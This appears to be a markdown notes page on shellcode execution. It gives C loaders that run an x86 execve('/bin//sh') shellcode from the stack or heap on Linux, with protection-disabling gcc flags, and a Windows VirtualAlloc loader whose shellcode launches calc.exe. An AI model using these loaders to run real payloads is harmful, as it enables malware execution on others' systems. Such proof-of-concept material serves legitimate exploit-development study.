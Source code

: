 https://stackoverflow.com/questions/2458819/how-to-allocate-an-executable-page-in-a-linux-kernel-module
## Shellcode in Linux
### using stack
Refs :
* <https://gist.github.com/securitytube/5318838>
```c
#include<stdio.h>
#include<string.h>


unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();

}
```
```bash
$ gcc shell.c -o shell -fno-stack-protector -z execstack -m32
$ ./shell
```
### using malloc
```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>


unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main()
{
  void* ptr; //base pointer

  printf("Shellcode Length:  %zu\n", strlen(code));

  // Dynamically allocate memory using malloc() 
  ptr = (void*)malloc(sizeof(code)); 
  
  /* Copies contents of str2 to sr1 */
  memcpy (ptr, code, sizeof(code)); 
  //printf("string %s", ptr);

  //int (*ret)() = (int(*)())code;
  void (*ret)() = (void (*)())ptr; //initialize and typecast ptr
  (*ret)();
}
```
```bash
$ gcc shell_malloc.c -o shell -z execstack -m32
$ ./shell
```
## Shellcode in Windows
This will open up calc.exe program
Refs:
* <https://www.exploit-db.com/exploits/48116>
* <https://github.com/Arno0x/ShellcodeWrapper/blob/master/templates/encryptedShellcodeWrapper.cpp>
```c
#include<windows.h>
#include<stdio.h>

char code[] = \
	"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
	"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
	"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
	"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
	"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
	"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
	"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
	"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
	"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
	"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
	"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
	"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
	"\x52\xff\xd0";

int main(int argc, char **argv)
{
	// Allocating memory with EXECUTE writes
	void *exec = VirtualAlloc(0, sizeof code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Copying deciphered shellcode into memory as a function
	memcpy(exec, code, sizeof code);

	// Call the shellcode
	((void(*)())exec)();
}
```
